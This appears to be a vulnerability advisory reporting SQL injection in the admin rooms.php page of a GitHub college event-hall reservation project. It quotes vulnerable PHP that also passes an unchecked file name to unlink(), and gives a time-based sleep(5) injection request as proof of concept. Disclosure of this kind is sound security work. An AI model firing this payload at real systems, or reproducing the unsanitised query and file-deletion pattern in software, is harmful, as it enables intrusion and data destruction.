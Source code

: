 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection rooms.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/rooms.php

## Code
```php
if (isset($_GET['room_id'])) {
    $rid = $_GET['room_id'];
    $sql = "DELETE FROM tbl_rooms WHERE room_id = $rid";
    $result = $conn->query($sql);
    $img_name = $_GET['img_name'];
    $path = "../images/" . $img_name;
    $remove = unlink($path);
}
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/rooms.php?room_id=sleep(5) HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/41f9e8b6-8386-4c06-b910-9165eaa7686d)


